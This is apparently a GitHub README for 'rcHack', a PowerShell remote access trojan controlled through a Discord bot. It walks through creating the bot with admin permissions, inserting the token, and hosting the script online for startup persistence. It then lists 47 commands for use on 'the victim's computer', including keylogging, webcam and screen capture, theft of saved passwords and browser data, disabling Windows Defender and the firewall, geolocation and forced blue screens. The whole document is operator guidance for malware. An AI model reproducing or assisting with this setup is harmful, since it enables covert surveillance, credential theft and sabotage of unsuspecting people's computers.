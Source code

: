 ## How to Set Up the Discord Bot?

1. Go to [Discord Developer Portal](https://discord.com/developers/applications).
2. Click "New application," name it, and click "Create."
3. In the Bot tab, copy the bot token.
4. Under Privileged Gateway Intents, enable:
   - PRESENCE INTENT
   - SERVER MEMBERS INTENT
   - MESSAGE CONTENT INTENT
   Then click "Save Changes."
5. In the Oauth2 tab:
   - Under Redirects, type `http://localhost/`.
   - Enable the following:
     - `messages.read`
     - `applications.commands`
     - `bot`
   - Select redirect URL `http://localhost/` and add the
   - `admin` permission.
   - Copy the generated URL.
6. Open the copied URL in the browser and follow the steps to add the bot to your server.

Now the bot is set up. Update the `rcHack.ps1` file with the bot token and server ID.

# rcHack Discord Bot Setup

## Setup Instructions for rcHack.ps1

1. Open `rcHack.ps1` in a text editor.
2. Edit the following variables with your specific information:
   ```powershell
   $token = "YOUR_DISCORD_BOT_TOKEN_HERE"

   $guildId = "YOUR_DISCORD_SERVER_ID"

   $StartupPsOnlineFileLocation = "HTTPS://WWW.EXAMPLE.COM/URL_TO_YOUR_RCHACK_SCRIPT.PS1"
   ```
the `StartupPsOnlineFileLocation` url should lead to an online-hosted version of itself (an exact copy)


1. Creating the Bot
   ![Creating the Bot](images/1%20creating%20the%20bot.png)

2. Naming the Bot
   ![Naming the Bot](images/2%20naming%20the%20bot.png)

3. Bot Tab
   ![Bot Tab](images/3%20bot%20tab.png)

4. Reset Token
   ![Reset Token](images/4%20reset%20token.png)

5. Copy Token
   ![Copy Token](images/5%20copy%20token.png)

6. Privileged Gateway Intents
   ![Privileged Gateway Intents](images/6%20privileged%20gateway%20intents.png)

7. OAuth2
   ![OAuth2](images/7%20oauth2.png)

8. Redirect URL
   ![Redirect URL](images/8%20redirect%20url.png)

9. Permissions
   ![Permissions](images/9%20permissions.png)

10. Admin
    ![Admin](images/10%20admin.png)

11. Add Bot
    ![Add Bot](images/11%20add%20bot.png)

---



```plaintext
COMMAND_NAME                           |                           PARAMETERS
--------------------------------------------------------------------------------
If you see 'Requires admin.', that means the script wasn't run as administrator.
--------------------------------------------------------------------------------
E          X          A          M          P          L          E          S

1. !cmd               // Executes a command in cmd and returns the output
   Example: !cmd ipconfig

2. !powershell        // Executes a command in PowerShell and returns the output
   Example: !powershell ipconfig

3. !dir               // Displays the current directory
   Example: !dir

4. !cd                // Changes the current directory
   Example: !cd C:\location\of\file

5. !download          // Downloads a file from a specified location or current directory
   Example: !download C:\location\of\file\file.txt
   Example: !download file.txt

6. !upload {ATTACHMENT} // Uploads any attachment to the current directory
   Example: !upload {ATTACHMENT}

7. !delete            // Deletes a specified file or directory
   Example: !delete C:\location\of\file\file.txt

8. !availwifi         // Retrieves available Wi-Fi networks
   Example: !availwifi

9. !wifipass          // Retrieves Wi-Fi passwords
   Example: !wifipass

10. !screenshot        // Captures a screenshot of the victim's screen
    Example: !screenshot

11. !webcampic         // Captures and returns a picture from the webcam
    Example: !webcampic

12. !wallpaper         // Changes the wallpaper of the victim's computer
    Example: !wallpaper C:\path\to\wallpaper.jpg

13. !keylogger         // Activates keylogger to record keystrokes
    Example: !keylogger

14. !getkeylog         // Retrieves the logged keystrokes
    Example: !getkeylog

15. !voicelogger       // Activates voicelogger to transcribe spoken words
    Example: !voicelogger

16. !getvoicelog       // Retrieves the logged voice recordings
    Example: !getvoicelog

17. !disabledefender   // Disables Windows Defender
    Example: !disabledefender

18. !disablefirewall   // Disables the Windows Firewall
    Example: !disablefirewall

19. !shutdown          // Shuts down the victim's computer
    Example: !shutdown

20. !restart           // Restarts the victim's computer
    Example: !restart

21. !logoff            // Logs off the user from the victim's computer
    Example: !logoff

22. !msgbox            // Displays a customizable message box
    Example: !msgbox TITLE_HERE,MESSAGE_HERE,Warning,YesNoCancel

23. !hackergoose       // Employs a specialized goose for real-time hacking
    Example: !hackergoose

24. !website           // Opens a specified website
    Example: !website www.example.com

25. !minapps           // Minimizes all windows on the victim's computer
    Example: !minapps

26. !ip                // Retrieves the victim's IP address
    Example: !ip

27. !passwords          // Retrieves the victim's saved passwords
    Example: !passwords

28. !browserdata       // Retrieves browser data
    Example: !browserdata

29. !networkscan       // Scans and retrieves information about the network
    Example: !networkscan

30. !volume            // Adjusts the volume of the victim's computer
    Example: !volume 50

31. !voice             // Makes the victim's computer speak a specified message
    Example: !voice You are hacked!

32. !proclist       // Retrieves a list of all running processes
    Example: !proclist

33. !prockill          // Terminates a specified process
    Example: !prockill process_name.exe

34. !write             // Types a specified message
    Example: !write Hello, world!

35. !clipboard         // Retrieves the last copied item
    Example: !clipboard

36. !idletime          // Retrieves the duration of the victim's idle time in seconds
    Example: !idletime

37. !datetime          // Retrieves the date and time of the victim's computer
    Example: !datetime

38. !bluescreen        // Triggers a blue screen on the victim's computer
    Example: !bluescreen

39. !delpasswords      // Deletes all passwords for all accounts on the current computer
    Example: !delpasswords

40. !geolocate         // Retrieves the victim's geolocation data
    Example: !geolocate

41. !block             // Blocks the victim's keyboard and mouse (requires admin)
    Example: !block

42. !unblock           // Unblocks the victim's keyboard and mouse (requires admin)
    Example: !unblock

43. !disabletaskmgr    // Disables Task Manager (requires admin)
    Example: !disabletaskmgr

44. !enabletaskmgr     // Enables Task Manager (requires admin)
    Example: !enabletaskmgr

45. !startup           // Enables persistence for this script
        will add a ps1 script to startup
        on line 9, set the var StartupPsOnlineFileLocation to the full url of your ps1 file
    Example: !startup

46. !implode           // Triggers a system implosion (Use with caution!)
    Example: !implode

47. !help              // Displays information about available commands
    Example: !help
```

